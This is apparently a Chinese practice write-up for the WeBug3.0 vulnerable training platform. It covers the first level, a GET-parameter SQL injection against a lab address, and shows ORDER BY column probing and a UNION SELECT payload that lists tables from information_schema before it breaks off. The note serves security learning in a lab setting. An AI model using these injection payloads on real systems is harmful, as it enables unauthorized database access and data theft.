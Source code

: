 ```yaml
---
title: WeBug3.0练习笔记
description: 在webug3.0的测试平台上测试后所写的一些测试笔记
date: 2019-02-25 15:32:06
---
```


## 下载部署

+ WeBug3.0
  - 下载：[https://pan.baidu.com/s/1Cz_H0GuudtuINGjSb0ZhPg](https://pan.baidu.com/s/1Cz_H0GuudtuINGjSb0ZhPg)  提取码: yug8

## 第一关-很简单的一个注入

> 普通的GET注入

### 方法一

#### 工具

- Firefox 48.0
+ Firefox插件:
  - hackbar

#### 步骤

猜想当前表中列数

```
// 失败:
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid= 2'order by 5 %23

...

// 成功:
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid= 2'order by 4 %23

// 结论：表中存在4列属性
```

获取表

```
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid=‘-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database() %23
```

![获取表](/images/1_1.png)
